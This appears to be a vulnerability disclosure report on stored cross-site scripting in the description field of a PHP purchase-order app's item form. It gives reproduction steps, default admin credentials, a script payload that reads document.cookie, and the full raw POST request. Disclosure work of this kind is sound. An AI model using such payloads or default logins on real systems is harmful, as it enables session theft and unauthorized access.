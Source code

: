 BUG_Author: biantaibao

Vulnerability url:/purchase_order/classes/Master.php?f=save_item

POST form-data parameter name="description" exists stored cross-site scripting

#### Steps to reproduce

1.Go to the admin Login

http://localhost/purchase_order/admin/login.php

Default Admin Access Information    Username: admin / Password: admin123

2.Click on "Item List" and Click on "+ Create New"

3.Put Payload into the name="description" parameter

Payload:<script>alert(document.cookie)</script>

![image](https://github.com/biantaibao/bug_report/blob/main/xss1.png)

4.Click on Save

Transmission packet

```
POST /purchase_order/classes/Master.php?f=save_item HTTP/1.1
Host: localhost
Content-Length: 456
sec-ch-ua: "Chromium";v="97", " Not;A Brand";v="99"
Accept: application/json, text/javascript, */*; q=0.01
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryEVgmE4IS3SY3HsV8
X-Requested-With: XMLHttpRequest
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
sec-ch-ua-platform: "Windows"
Origin: http://localhost
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://localhost/purchase_order/admin/?page=items
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,zh-CN;q=0.8,zh;q=0.7
Cookie: revenue[LastUrl]=%2Frates%2Fadmin%2Fsystem_settingslist.php; PHPSESSID=i6hni6v878818jfsm3ur8n792s
Connection: close

------WebKitFormBoundaryEVgmE4IS3SY3HsV8
Content-Disposition: form-data; name="id"


------WebKitFormBoundaryEVgmE4IS3SY3HsV8
Content-Disposition: form-data; name="name"

1
------WebKitFormBoundaryEVgmE4IS3SY3HsV8
Content-Disposition: form-data; name="description"

<script>alert(document.cookie)</script>
------WebKitFormBoundaryEVgmE4IS3SY3HsV8
Content-Disposition: form-data; name="status"

1
------WebKitFormBoundaryEVgmE4IS3SY3HsV8--
```

5.Payload will trigger when a user visits on http://localhost/purchase_order/admin/?page=items

![image](https://github.com/biantaibao/bug_report/blob/main/xss2.png)
